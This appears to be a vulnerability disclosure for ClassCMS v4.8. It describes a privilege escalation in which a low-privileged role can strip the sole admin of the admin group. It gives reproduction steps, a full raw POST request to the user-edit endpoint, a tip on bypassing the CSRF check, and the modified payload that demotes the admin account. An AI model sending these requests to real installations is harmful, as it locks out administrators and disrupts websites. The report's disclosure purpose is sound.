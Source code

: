 # Vertical Privilege Escalation Vulnerability Report

## Description
A privilege escalation vulnerability exists in the model management module of Classcms. This allows accounts belonging to non-admin user groups to modify admin group users and change their group memberships to other user groups. If all users in the admin group are changed to other groups, the system will no longer have the ability to configure accounts for the admin group.

## Download URL
[https://github.com/ClassCMS/ClassCMS/releases/tag/v4.8](https://github.com/ClassCMS/ClassCMS/releases/tag/v4.8)

## Version
V4.8

## Tested Environment
- PHP
- Apache
- MySQL

## Affected Page
`/index.php/admin`

## Vulnerability Details
In the user management page, the username, hash, and rolehash[0] parameters are vulnerable to vertical privilege escalation. Accounts with non-admin permissions can modify the roles of members in the admin user group, even though they cannot view admin users. While the system prevents non-admin users from elevating their own roles to the admin group, it fails to account for vertical privilege escalation that allows non-admin users to downgrade the permissions of admin group members. This oversight can result in a scenario where admin users lose their admin group membership, effectively locking all admin users out of the admin group.

## Steps to Reproduce

1. To test this vulnerability, you need two roles: the default admin role and a custom aaa role with permissions for "Modify User Account" in User Management and access to Role Management. The setup should look as shown in the figure:
![image](https://github.com/user-attachments/assets/21785bd1-9e0e-4001-bb67-4ccd45c23428)
2.Log in to the backend, then click on User Management, followed by Roles, and then click Add Role. Create the aaa role and assign it only the permissions for Role Management and Modify User Account.
![image](https://github.com/user-attachments/assets/210caa40-1cee-4e46-9cb2-eae1da2b41bc)
![image](https://github.com/user-attachments/assets/36b79a44-8595-4670-a2e8-52b8e04e3e28)
![image](https://github.com/user-attachments/assets/486f5d1a-8cb2-4336-8bb5-2cf06f3340d1)
![image](https://github.com/user-attachments/assets/62709bc4-8904-40eb-95be-a237d8929c42)
3.Add a user a and assign the aaa role to them.
![image](https://github.com/user-attachments/assets/4ae05941-9ce0-44b7-9e27-6c3addf23355)
4.Log in as user a and notice that the interface is empty.
![image](https://github.com/user-attachments/assets/2e9dc7c1-8f16-4aaa-8ea3-18ef40a2ad9a)
5.Below is the complete structure of the data packet(When reproducing, please modify the `Cookie` to match your account. Additionally, remove the `csrf_XXX` parameter, as it has already been removed in the constructed POST packet. Leaving it empty will bypass the CSRF check.):

```http
POST /admin?do=admin:user:editPost HTTP/1.1
Host: 10.0.93.90
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 68
Origin: http://10.0.93.90
Connection: close
Cookie: token_595ef5=592c2e882068577109097bafcc27e7a2;
Priority: u=0

username=a&hash=a&enabled=on&rolehash%5B0%5D=admin&passwd=&passwd_2=
```
![image](https://github.com/user-attachments/assets/8fb7c68f-69c8-4989-b246-3e2817ddb547)
6.Although it shows success here, when we refresh the page, we find that the a account's privileges have not changed.
![image](https://github.com/user-attachments/assets/0263d197-8b00-4061-a3a6-804aa8488c22)
7.However, if we modify the parameters in the data packet as follows:

```http
username=admin&hash=admin&enabled=on&rolehash%5B0%5D=aaa&passwd=&passwd_2=
```
![image](https://github.com/user-attachments/assets/25b9bdb5-d55d-4fff-bbbf-6f178fa05b78)

This will change the sole admin user in the admin group to the aaa group, effectively stripping it of all privileges.
![image](https://github.com/user-attachments/assets/d51a419a-e756-461a-8285-de418107554d)

This action is irreversible, and the admin account will permanently lose its admin group privileges. This method can be used to disrupt the website.

tisp: I have tried various methods, and no matter what permissions the `aaa` user group is given, as long as the `admin` user is moved to the `aaa` group, the `admin` user can never return to the `admin` group, especially when the `admin` group only has the `admin` user.


